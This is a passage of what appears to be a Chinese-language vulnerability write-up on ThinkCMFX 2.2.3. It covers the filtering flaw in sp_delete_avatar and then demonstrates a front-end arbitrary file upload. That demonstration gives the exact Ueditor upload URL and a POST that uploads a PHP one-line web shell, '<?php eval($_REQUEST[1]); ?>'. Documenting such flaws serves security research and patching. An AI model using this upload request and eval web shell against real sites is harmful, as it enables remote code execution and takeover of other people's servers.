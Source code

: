 从文件可以看到 $imgurl=str_replace('/','',$imgurl); 过滤了 / 但是没有过滤 所以我们无法引入 / 并且在更新头像以后还会从前端接收参数 imgurl 带入函数sp_delete_avatar 跟进去

路径：ThinkCMFX\application\Common\Common\function.php
方法：function sp_delete_avatar(

![image](img/3dc20222ddd61f972a6fdd6fdcb4fffd.png)

#### 0x04 前台任意上传漏洞

##### 0x04.1 漏洞演示

记得一定要登录!
记得一定要登录!
记得一定要登录!
记得在前台注册一个账号进行登录或是直接登录后台然后在访问此地址

```
打开url: http://atest.test/cms/ThinkCMFX_2.2.3/index.php?g=Asset&m=Ueditor&a=upload&action=uploadfile
POST:
file = php一句话木马的文件 `1.php

<?php

eval($_REQUEST[1]);

?>` 
```

![image](img/69bf74011cb03bde73e57fc90d64edc6.png)
